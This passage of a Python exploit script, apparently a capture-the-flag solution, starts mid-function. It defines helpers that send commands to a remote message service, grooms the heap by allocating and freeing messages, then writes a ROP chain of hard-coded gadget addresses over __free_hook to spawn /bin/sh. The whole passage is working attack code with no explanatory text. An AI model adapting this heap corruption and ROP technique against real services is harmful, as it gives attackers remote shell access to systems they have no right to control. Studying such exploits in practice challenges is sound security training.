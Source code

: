 ```python=
    r = y.recv( 0x1000 )
    print r[:0x100]

def dle_con( idx ):
    p = p32( 3 , endian = 'big' )
    p += p32( idx , endian = 'big' )
    y.send( p.ljust( 0x100 , '\0' ) )
    r = y.recv( 0x1000 )
    print r[:0x50]

def add_msg( to , l , msg ):
    p = p32( 4 , endian = 'big' )
    p += p32( to , endian = 'big' )
    p += p32( l , endian = 'big' )
    p += msg
    y.send( p.ljust( 0x100 , '\0' )[:0x1000] )
    r = y.recv( 0x1000 )
    print r[:0x20]

def dle_msg( idx ):
    p = p32( 6 , endian = 'big' )
    p += p32( idx , endian = 'big' )
    y.send( p.ljust( 0x100 , '\0' ) )
    r = y.recv( 0x1000 )
    print r[:0x50]

def list_msg():
    p = p32( 5 , endian = 'big' )
    y.send( p.ljust( 0x100 , '\0' ) )
    r = y.recv( 0x1000 )
    print r[:0x100]


add_con( 0x100 , 'a' * 0x50 , 0x10 , '1' * 0x10 )

add_msg( 0 , 0x68 , 'A' * 0x10 )
dle_msg(0)
add_msg( 0 , 0x2000 , 'A' * 0x10 )
dle_msg(0)

free_hook = 0x6BEE98
pop_rdi = 0x400686
pop_rsi = 0x410df3
pop_rdx = 0x44a175
pop_rax = 0x44a11c
syscall = 0x47db6f


p = flat(
    pop_rdi,
    free_hook - 8,
    pop_rsi,
    0,
    pop_rdx,
    0,
    pop_rax,
    0x3b,
    syscall
)

add_msg( 0 , 0x68 , p64( free_hook - 8 ) )
add_msg( 0 , 0x68 , p )
add_msg( 0 , 0x68 , '/bin/sh\0' + p64( 0x4a9678 ) ) # xchg eax, edi ; xchg eax, esp ; ret
```